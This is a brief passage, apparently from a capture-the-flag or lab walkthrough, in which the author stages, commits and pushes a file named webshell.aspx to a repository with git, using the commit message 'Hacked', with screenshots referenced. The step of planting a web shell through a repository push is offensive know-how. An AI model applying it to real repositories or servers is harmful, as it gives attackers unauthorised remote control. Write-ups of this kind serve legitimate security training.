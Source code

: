 now let’s use get add

```bash
git add webshell.aspx
git status
```

![image.png](../images/lock%2012.png)

now let’s make a co,mit and push the webshell

```bash
git commit -am "Hacked"
git push
```

![image.png](../images/lock%2013.png)
